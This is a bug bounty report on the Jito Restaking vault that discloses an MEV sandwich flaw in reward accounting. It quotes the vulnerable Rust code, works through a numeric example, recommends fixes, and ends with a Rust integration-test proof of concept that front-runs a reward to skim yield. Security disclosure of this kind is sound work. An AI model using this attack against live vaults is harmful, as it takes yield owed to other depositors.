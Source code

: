 # #36903 \[SC-High] The vault reward mechanism can be sandwiched by MEV

**Submitted on Nov 19th 2024 at 10:35:35 UTC by @Hoverfly9132 for** [**Audit Comp | Jito Restaking**](https://immunefi.com/audit-competition/jito-restaking-audit-competition)

* **Report ID:** #36903
* **Report Type:** Smart Contract
* **Report severity:** High
* **Target:** https://github.com/jito-foundation/restaking/tree/master/vault\_program
* **Impacts:**
  * Theft of unclaimed yield

## Description

## Brief/Intro

The vault reward mechanism can be sandwiched by MEV to gain profits.

## Vulnerability Details

When any SPL tokens are rewarded to the vault, the vault will update the VRT and total deposited amounts after calculating the reward fee:

```rust
// 1. Calculate reward fee in ST
pub fn process_update_vault_balance(
    program_id: &Pubkey,
    accounts: &[AccountInfo],
) -> ProgramResult {
    ...
    let st_rewards = new_st_balance.saturating_sub(vault.tokens_deposited());
    let st_reward_fee = vault.calculate_st_reward_fee(new_st_balance)?;

    // 2. Increment ST less the reward fee
    let st_balance_after_fees = new_st_balance
        .checked_sub(st_reward_fee)
        .ok_or(VaultError::ArithmeticUnderflow)?;
    // @audit - update the vault's ST balance
    vault.set_tokens_deposited(st_balance_after_fees);

    // 3. Calculate the reward fee in VRT
    let vrt_reward_fee = vault.calculate_vrt_mint_amount(st_reward_fee)?;

    // 4. Update State, with the vrt fee and the new st balance
    vault.set_tokens_deposited(new_st_balance);
    // @audit - increment the vault's VRT supply with the `vrt_reward_fee`.
    vault.increment_vrt_supply(vrt_reward_fee)?;
    ...
}
```

This instruction will update the vault's VRT and total deposited amounts, if the increased total deposited amounts greater than the increased VRT supply, the exchange rate when burning the VRT: `total_deposited/VRT` will be increased, such that any users can redeem more ST with the same amount of VRT.

For example, both the total deposited amounts and VRT supply are `100000`, so the exchange rate is 1:1 at first, whether minting or burning VRT.

If some SPL tokens are rewarded to the vault with `10000`, reward fee is `1%`, the `st_reward_fee = 110000 * 1% = 1100`, the total deposited amounts will be updated to `110000 - 1100 = 108900`, the `vrt_reward_fee = 1100 * 100000/108900 = 1010`, so the new VRT supply will be `100000 + 1010 = 101010`. When users withdraw SPL tokens with VRT at this time, the exchange rate between SPL token and VRT supply is `108900/101010 ~= 1.078` greater than 1, so any users can gain profits by sandwich when the supported SPL tokens are rewarded to the vault.

## Impact

The vault reward mechanism can be sandwiched by MEV to gain profits from other users' yield.

Severity: High, because any MEV can gain profits from other users' yield, belong to `Theft of unclaimed yield` impact scope, also can be found in [immunefi-vulnerability-severity-classification-system-v2-3](https://immunefi.com/immunefi-vulnerability-severity-classification-system-v2-3/).

## Recommendation

Implement a lock-up period for new deposited users, this should prevent any users can withdraw SPL tokens immediately after the SPL tokens are rewarded to the vault.

Or distriubute the rewards based on the time of the deposit, the longer the deposit time, the more rewards will be distributed.

## Proof of Concept

## Proof of Concept

This is a PoC of the above issue, please see the comments for the detailed steps, insert the case to `integration_tests/tests/vault/burn_withdrawal_ticket.rs` file then run `cargo-build-sbf && SBF_OUT_DIR=$(pwd)/target/sbf-solana-solana/release cargo nextest run --all-features test_burn_withdrawal_ticket_basic_success_with_update_vault_balance --verbose`:

```rust
 #[tokio::test]
async fn test_burn_withdrawal_ticket_basic_success_with_update_vault_balance() {
    const MINT_AMOUNT: u64 = 100_000;
    const WITHDRAWAL_AMOUNT: u64 = 10_000;

    let deposit_fee_bps = 0;
    let withdraw_fee_bps = 0;
    // set reward_fee_bps -> 1%
    let reward_fee_bps = 100;
    let num_operators = 1;
    let slasher_amounts = vec![];

    let mut fixture = TestBuilder::new().await;
    let ConfiguredVault {
        mut vault_program_client,
        restaking_program_client: _,
        vault_config_admin: _,
        vault_root,
        restaking_config_admin: _,
        operator_roots,
    } = fixture
        .setup_vault_with_ncn_and_operators(
            deposit_fee_bps,
            withdraw_fee_bps,
            reward_fee_bps,
            num_operators,
            &slasher_amounts,
        )
        .await
        .unwrap();

    // 1. initial deposit + mint to the depositor with MINT_AMOUNT and delegate all funds to the operator
    let depositor = Keypair::new();
    vault_program_client
        .configure_depositor(&vault_root, &depositor.pubkey(), MINT_AMOUNT)
        .await
        .unwrap();
    vault_program_client
        .do_mint_to(&vault_root, &depositor, MINT_AMOUNT, MINT_AMOUNT)
        .await
        .unwrap();

    vault_program_client
        .do_add_delegation(&vault_root, &operator_roots[0].operator_pubkey, MINT_AMOUNT)
        .await
        .unwrap();

    // 2. attacker monitor some rewarders is sending spl tokens to the vault as rewards in the mempool,
    // and front-run the rewarders txs, initial deposit + mint to the attacker with WITHDRAWAL_AMOUNT
    let attacker = Keypair::new();
    vault_program_client
        .configure_depositor(&vault_root, &attacker.pubkey(), WITHDRAWAL_AMOUNT)
        .await
        .unwrap();
    vault_program_client
        .do_mint_to(&vault_root, &attacker, WITHDRAWAL_AMOUNT, WITHDRAWAL_AMOUNT)
        .await
        .unwrap();

    // 3. rewarder transfer spl token reward to the vault with MINT_AMOUNT/10
    let rewarder: Keypair = Keypair::new();
    vault_program_client
        .configure_depositor(&vault_root, &rewarder.pubkey(), MINT_AMOUNT/3)
        .await
        .unwrap();

    vault_program_client
        .create_and_fund_reward_vault(&vault_root.vault_pubkey, &rewarder, MINT_AMOUNT/10)
        .await
        .unwrap();

    // 4. Attacker initiate enqueue withdrawal with WITHDRAWAL_AMOUNT
    let VaultStakerWithdrawalTicketRoot { base } = vault_program_client
        .do_enqueue_withdrawal(&vault_root, &attacker, WITHDRAWAL_AMOUNT)
        .await
        .unwrap();

    vault_program_client
        .do_cooldown_delegation(&vault_root, &operator_roots[0].operator_pubkey, WITHDRAWAL_AMOUNT)
        .await
        .unwrap();

    // 5. Waiting for epochs to pass
    let config = vault_program_client
    .get_config(&Config::find_program_address(&jito_vault_program::id()).0)
    .await
    .unwrap();

    fixture
        .warp_slot_incremental(config.epoch_length())
        .await
        .unwrap();
    vault_program_client
        .do_full_vault_update(
            &vault_root.vault_pubkey,
            &[operator_roots[0].operator_pubkey],
        )
        .await
        .unwrap();
    fixture
        .warp_slot_incremental(config.epoch_length())
        .await
        .unwrap();
    vault_program_client
        .do_full_vault_update(
            &vault_root.vault_pubkey,
            &[operator_roots[0].operator_pubkey],
        )
        .await
        .unwrap();

    vault_program_client
        .do_burn_withdrawal_ticket(&vault_root, &attacker, &base, &config.program_fee_wallet)
        .await
        .unwrap();
    
    // 6. check the amounts of the attacker's token account
    let vault = vault_program_client
        .get_vault(&vault_root.vault_pubkey)
        .await
        .unwrap();

    let attacker_token_account = fixture
        .get_token_account(&get_associated_token_address(
            &attacker.pubkey(),
            &vault.supported_mint,
        ))
        .await
        .unwrap();
    
    // attacker mint VRT with 10000 spl tokens at first, then withdraw spl tokens with 10000 VRT, 10000 * 120000/110091 = 10900 > WITHDRAWAL_AMOUNT.
    assert_eq!(attacker_token_account.amount, WITHDRAWAL_AMOUNT + 900);
}
```
